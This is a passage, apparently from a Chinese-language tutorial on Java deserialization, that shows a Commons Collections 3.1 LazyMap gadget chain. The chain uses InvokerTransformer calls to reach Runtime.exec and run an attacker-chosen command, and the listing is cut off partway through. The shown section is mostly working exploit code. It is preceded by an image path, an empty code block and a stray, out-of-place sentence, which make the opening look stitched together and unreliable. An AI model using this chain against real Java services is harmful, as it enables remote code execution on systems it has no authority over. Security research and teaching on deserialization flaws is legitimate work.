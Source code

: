 ```java
```

演示确认Retention、Target、Repeatable均可用，没有其他意图。

8.3) LazyMap利用链

8.3.1) LazyMapExec.java

```java
*
 * javac -encoding GBK -g -cp "commons-collections-3.1.jar" LazyMapExec.java
 * java -cp "commons-collections-3.1.jar:." LazyMapExec "/bin/touch /tmp/scz_is_here"
 */
import java.io.*;
import java.util.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;

public class LazyMapExec
{
    @SuppressWarnings("unchecked")
    public static void main ( String[] argv ) throws Exception
    {
        String          cmd         = argv[0];
        Transformer[]   tarray      = new Transformer[]
        {
            new ConstantTransformer( Runtime.class ),
            new InvokerTransformer
            (
                "getMethod",
                new Class[]
                {
                    String.class,
                    Class[].class
                },
                new Object[]
                {
                    "getRuntime",
                    new Class[0]
                }
            ),
            new InvokerTransformer
            (
                "invoke",
                new Class[]
                {
                    Object.class,
                    Object[].class
                },
                new Object[]
                {
                    null,
                    new Object[0]
                }
            ),
            new InvokerTransformer
            (
                "exec",
                new Class[]
                {
                    String[].class
                },
                new Object[]
                {
```